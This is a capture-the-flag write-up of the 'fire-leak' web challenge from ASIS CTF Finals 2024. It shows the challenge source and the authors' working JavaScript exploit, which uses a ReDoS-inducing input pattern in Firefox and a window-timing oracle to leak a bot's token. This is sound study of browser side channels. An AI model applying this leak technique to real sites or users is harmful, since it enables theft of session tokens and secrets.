




# [web] fire-leak - ASIS CTF Finals 2024

This year, I played in the ASIS CTF Finals with `@TheRomanXpl0it`, and we secured 7th place at the end of the CTF. I decided to write this up because I've never seen a similar challenge before. `@simonedimaria` and I worked on this challenge and solved it after about 8 hours.

## Overview
As the name suggests, this is an [XS-Leak](https://xsleaks.dev/) challenge. We're given the source code and there are three endpoints.

`/save-flag`
```js
// For the admin bot
app.get("/save-flag", (req, res) => {
    const token = crypto.randomBytes(6).toString("hex");
    const flag = req.cookies.FLAG;
    tokens.set(token, flag);
    console.log({ token, flag });
    setTimeout(
        () => tokens.delete(token), // expired
        120_000
    );
    res.clearCookie("FLAG").cookie("TOKEN", token).send("Saved");
});
```
Generates a random token and saves the flag. The token is deleted after 120 seconds.

`/get`
```js
// If you steal a token, use it :)
app.get("/get", (req, res) => {
    const token = String(req.query.token);
    res.send(tokens.get(token) ?? "Not found");
});
```
Retrieves the flag given its token.

`/`
```js
app.get("/", (req, res) => {
    const html = String(req.query.html ?? defaultHtml);

    if (html.length > 1024) return res.send("?");
    if (/[^\x20-\x7e\r\n]/i.test(html)) return res.send("??");
    if (/meta|link|src|data|href|svg|:|%|&|\\|\/\//i.test(html)) return res.send("???");

    res
        .type("html")
        .setHeader(
            "Content-Security-Policy",
            "default-src 'none'; base-uri 'none'; frame-ancestors 'none'"
        )
        .send(html.replace("{{TOKEN}}", req.cookies.TOKEN));
});
```
This endpoint lets us render arbitrary HTML. If we put `{{TOKEN}}` inside our HTML, it will be replaced with the `TOKEN` cookie.

Also, a new token is generated every time a URL is reported.

`bot.js`
```js
await context.addCookies([
    {
        name: "FLAG",
        value: FLAG,
        url: APP_URL,
        httpOnly: true,
    },
]);
// ...
const page1 = await context.newPage();
await page1.goto(APP_URL + "/save-flag", { timeout: 3_000 });
await sleep(2_000);
await page1.close();
// ...
const page2 = await context.newPage();
await page2.goto(url, { timeout: 5_000 });
await sleep(60_000);
await page2.close();
```

The goal is:
- Steal the bot token within 60 seconds.
- Use that token to retrieve the flag by making a request to `/get`.

However, we have a few limitations:
- The HTML should be less than 1024 characters.
- We can't use any characters besides `^\x20-\x7e\r\n`.
- We can't use the following words: `meta`, `link`, `src`, `data`, `href`, `svg`.
- We can't use the following characters: `:%&\`.

Furthermore, there's a strict [CSP](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) which prevents us from using other techniques to leak the token.

**Note: The bot uses Firefox!**

## Solution
The first thing that came to our mind was searching for weird behaviors in Firefox, hoping to find something useful. And we did:



**Note:** If you don't know what a ReDoS is, check out [this article!](https://blog.huli.tw/2023/06/12/en/redos-regular-expression-denial-of-service/).

We used the following regex and input:
```js
let regex = "^" + tobrute + "(([a-f0-9]+.)[a-f0-9])+$";
let input = `{{TOKEN}}${'a'.repeat(count)}!`;
```

So if our token is `deadbeef`, our HTML element would be:
```html
<input value="deadbeefaaaaaaaaaaaaaaaaaaaaaaaaaaaaa!" pattern="^d(([a-f0-9]+.)[a-f0-9])+$" />
```

By doing so, if the first part of the pattern (`^d`) is matched, the regex will cause a ReDoS and we would know that the first character of the token is `d`.

[Here](https://blog.robertelder.org/regular-expression-visualizer/?the_regex=%5Ed((%5Ba-f0-9%5D%2B.)%5Ba-f0-9%5D)%2B%24&the_subject=deadaaaaaa!) you can see why it happens!

Now we need a way to detect the ReDoS.

We noticed that if we try to change the location of the window during the ReDoS (to `about:blank`), Firefox will go to that location only after finishing the validation process.

So, we can detect how much time it takes to let that happen by continuously checking if we can retrieve the value of `window.opener`.

```js
function sleep(time) {
    return new Promise((resolve) => setTimeout(resolve, time));
}
function popup(url) {
    return window.open(url, "palle", "width=200,height=100");
}

async function oracle(tobrute) {
    let final_pattern = "^" + tobrute + "(([a-f0-9]+.)[a-f0-9])+$";

    console.log("PATTERN", final_pattern);
    let count = 30 + tobrute.length - 1;

    let tokstr = "{{TOKEN}}";

    let html = `<input value="{{TOKEN}}${'a'.repeat(count)}!" pattern="${final_pattern}" />`;

    console.log(html);

    var w = popup("http://web:3000/?html=" + encodeURIComponent(html));
    await sleep(200);
    w.location = "about:blank";
    var start = performance.now();
    await new Promise((resolve) => {
        let interval = setInterval(async () => {
            try {
                w.origin;
                clearInterval(interval);
                resolve();
            } catch (e) {
                // Do nothing, just wait for the next interval
            }
        }, 100);
    });

    return performance.now() - start;
}
```

We tried to execute this locally and... it worked!



So it should also work on the remote server, right?
Unfortunately, no. Timing attacks using ReDoS are inherently unstable, as they depend on numerous factors. While we were able to leak the entire token locally in just 30 to 40 seconds, on the remote server, we were only getting garbage.

To address this, we had to do a bit of fine-tuning by re-using the same window without closing it, adjusting the sleep durations, and the length of our input values... and still, we were not able to leak the token but at least we were leaking a part of it.

At some point, we decided to brute-force the last two characters because we wasted more than 3 hours trying to make this exploit stable. And it worked!



We were the only team that managed to solve this challenge.



## Conclusions
After reading the [author's writeup](https://blog.arkark.dev/2024/12/30/asisctf-finals/), we saw that he used a slightly different approach by doing frame counting, and his exploit leaks the token in about 30 seconds!

Anyway, thanks for the great CTF, we had a lot of fun!